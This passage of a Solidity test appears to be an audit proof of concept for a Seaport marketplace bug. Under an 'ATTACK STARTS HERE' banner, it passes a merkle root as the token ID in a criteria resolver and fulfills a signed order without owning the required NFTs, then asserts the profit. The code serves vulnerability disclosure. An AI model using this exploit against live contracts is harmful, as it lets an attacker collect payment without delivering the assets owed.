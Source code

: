 ```solidity

        OrderParameters memory orderParameters = OrderParameters(
            address(alice),
            context.zone,
            offerItems,
            considerationItems,
            OrderType.FULL_OPEN,
            block.timestamp,
            block.timestamp + 1000,
            context.zoneHash,
            context.salt,
            conduitKey,
            considerationItems.length
        );

        OrderComponents memory orderComponents = getOrderComponents(
            orderParameters,
            context.consideration.getNonce(alice)
        );
        bytes32 orderHash = context.consideration.getOrderHash(orderComponents);
        bytes memory signature = signOrder(
            context.consideration,
            alicePk,
            orderHash
        );

        delete offerItems;
        delete considerationItems;

        /*************** ATTACK STARTS HERE ***************/
        AdvancedOrder memory advancedOrder = AdvancedOrder(
            orderParameters,
            1, /* numerator */
            1, /* denominator */
            signature,
            ""
        );

        // resolve the merkle root token ID itself
        CriteriaResolver[] memory cr = new CriteriaResolver[](1);
        bytes32[] memory proof = new bytes32[](0);
        cr[0] = CriteriaResolver(
              0, // uint256 orderIndex;
              Side.CONSIDERATION, // Side side;
              0, // uint256 index; (item)
              uint256(merkleRoot), // uint256 identifier;
              proof // bytes32[] criteriaProof;
        );

        uint256 profit = token1.balanceOf(address(this));
        context.consideration.fulfillAdvancedOrder{
            value: context.paymentAmount
        }(advancedOrder, cr, bytes32(0));
        profit = token1.balanceOf(address(this)) - profit;

        // @audit could fulfill order without owning NFT 1 or 2
        assertEq(profit, context.paymentAmount);
    }
}
```
